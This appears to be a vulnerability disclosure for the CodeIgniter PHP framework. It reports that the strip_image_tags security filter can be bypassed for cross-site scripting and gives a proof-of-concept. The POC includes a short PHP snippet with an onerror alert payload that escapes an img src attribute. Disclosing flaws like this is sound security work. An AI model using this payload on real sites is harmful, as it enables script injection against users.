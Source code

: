 ## Description

CodeIgniter is a PHP full-stack web framework that is light, fast, flexible, and secure.

This package is vulnerable to Cross-site scripting and can be exploited by bypassing the strip_image_tags function filter.

## POC

1. Install via composer by following this (link)[https://codeigniter.com/user_guide/installation/installing_composer.html]
2. Update the index method code on `app/Controllers/Home.php`
```
helper('security');

$payload = 'http://www.example.com/x" onerror=alert(1)//';
$imageurl = strip_image_tags($payload);
echo '<img src="'.$imageurl.'">';
```
3. Run the app to verify the vulnerability by following this (link)[https://codeigniter.com/user_guide/installation/running.html#local-development-server]
